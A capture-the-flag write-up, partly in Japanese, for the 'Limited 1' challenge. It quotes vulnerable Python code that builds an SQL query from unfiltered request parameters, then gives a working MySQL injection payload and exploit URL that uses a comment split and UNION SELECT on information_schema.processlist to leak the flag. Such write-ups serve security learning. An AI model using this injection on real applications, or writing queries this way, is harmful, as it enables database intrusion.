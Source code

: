 # Limited 1

Can you attack the menu system to read the flag that is in a comment inside the query itself?
(source provided as dist.tar.gz)
Note: This is the first in a series of 3 challenges

https://limited-app-974780027560.us-east5.run.app/

initialize.sql
```
USE ctf;
-- This password is 13 characters and can be found in rockyou.
-- It is the flag for one of the challenges using this source
-- BUT it needs to be wrapped by wctf{} before submitting.
create user 'flag' identified by 'REDACTED_FLAG';

grant select on mysql.user to ctf;

-- The actual name of this table in the host challenge starts with Flag_ but is unguessable.
CREATE TABLE Flag_REDACTED
(
    value VARCHAR(255) NOT NULL
);

INSERT INTO Flag_REDACTED (value) VALUES ('wctf{redacted-flag}');
```

- Flag_REDACTEDというテーブルにフラグが保存されている


app.py
- /query エンドポイント
```
price = float(request.args.get('price') or '0.00')
price_op = str(request.args.get('price_op') or '>')
limit = str(request.args.get('limit') or '1')

query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu 
            WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
```
- price_op の長さチェック（4文字以内）もある。
- limit には特にフィルタリングがないため、SQLインジェクションの可能性

## solve

- SQLインジェクションの利用する

```
SELECT /*wctf{redacted-flag}*/ category, name, price, description 
FROM Menu 
WHERE price < /* ORDER BY 1 
LIMIT */ 0 
UNION SELECT 1, (SELECT info FROM information_schema.processlist WHERE id = CONNECTION_ID()), 3, 4 -- 
```
```
https://limited-app-974780027560.us-east5.run.app/query?price=10.00&price_op=< /*&limit=*/ 0 UNION SELECT 1, (SELECT info FROM information_schema.processlist WHERE id = CONNECTION_ID()), 3, 4 --  
```

![](image.png)


## flag
`wctf{bu7_my5ql_h45_n0_curr3n7_qu3ry_func710n_l1k3_p0576r35_d035_25785458}`